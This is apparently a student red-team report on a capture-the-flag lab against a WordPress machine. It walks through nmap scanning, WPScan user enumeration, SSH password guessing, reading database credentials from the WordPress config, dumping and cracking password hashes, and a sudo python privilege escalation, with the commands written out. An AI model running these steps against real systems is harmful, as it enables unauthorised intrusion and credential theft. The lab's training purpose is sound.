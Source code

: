 # Red Team: Summary of Operations
 
## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation
 
### Exposed Service
 
Nmap scan results for the target machine reveal the below services and OS details:
 
```bash
$ nmap -sV -O 192.168.1.0/24
```
 
This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp – SSH – open 
    Allows ssh logins and brute force attack using dictionary.
 
  - Port 80/tcp – HTTP – open 
Allows for HTTP traffic and brute force attack using dictionary.
 
  - Port 111/tcp – rbcbind – open 
    Allows to see what services are running which help hackers in the reconnaissance step. RPC has several security vulnerabilities.
 
   - Port 139/tcp – netbios-ssn – open
     Allows for network file sharing and potentially for reverse shell attack via Metasploit. 
     
   - Port 445/tcp – netbios-ssn – open
     Allows for network file sharing and potentially for reverse shell attack via Metasploit. 
 
 
The following vulnerabilities were identified on target 1:

 
### WPScan
- WPScan was ran to enumerate version and users. 
- Wordpress is running version 3.7.8, which has many vulnerabilities:
 https://www.cvedetails.com/vulnerability-list/vendor_id-2337/product_id-4096/version_id-224460/Wordpress-Wordpress-3.7.8.html
- Two users were found: Michael and Steven.

### Brute Force Attack
 
- Michael password was guessed, and it was the same as his login, Michael. 
- Steven password was cracked using john the ripper after finding his has hash.
 
### Python Shell Commands
- After logged in as Steven, I used the python bash commands to gain root access. 

## Exploitation
 
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

  - `flag1.txt`: {b9bbcb33e11b80be759}
     - **Exploit Used:**
         - Used ls to look at the html directory an inspected the files in it. Found the flag in the html directory.
     - **Commands Used:**
```bash
$ cd /var/www/html
$ ls
$ cat service.html
```
  - `flag2.txt`: {fc3fd58dcdad9ab23faca6e9a36e581c}
     - **Exploit Used:**
         - Weak password policy
         - Michael’s password was guessed while trying to login to his account using ssh.
         - The flag was found using the locate command. Flag was found in yhe /var/www directory.
     - **Commands used:**
```bash
$ ssh michael@192.168.1.110
>>> Password: Michael
$ locate flag
```                           
 - `flag3.txt`: {afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used:**
        - Looking for information that sysadmin forgot to remove. 
        - Found the password for the MySQL database in the file wp_config.html located in the directory /var/www/html/wordpress.
        - Logged into the MySQL database and found the hashes for Michael’s and Steve’s password in the worpress database in the wp_users table.
        - Found flag 3 in the table wp_posts 
     - **Commands used:**
```bash
$ mysql -u root -p
$ show database;
$ use wordpress;
$ show tables;
$ select * from wp_users;
$ select * from wp_posts where post_title=”flag3”;
```        
- `flag4.txt`: {715dea6c055b9fe3337544932f2941ce}
   - **Exploit Used**
       - Python Shell command
       - Steven’s password was cracked using john the riper after creating a file called wp_hashes.txt with his hash in it.
       - Once logged in as Steven, I still could not gain root access, but found out with sudo -l that he could run commands on raven without password.
       - Python scrip was run to gain access and flag 4 was found.
    - **Command used:**
```bash
$ john wp_hashes.txt. The password is pink84.
$ sudo -l
$ sudo /usr/bin/python
>>> import os
>>> os.system ("sudo su root"|)
$ whoami
```
 





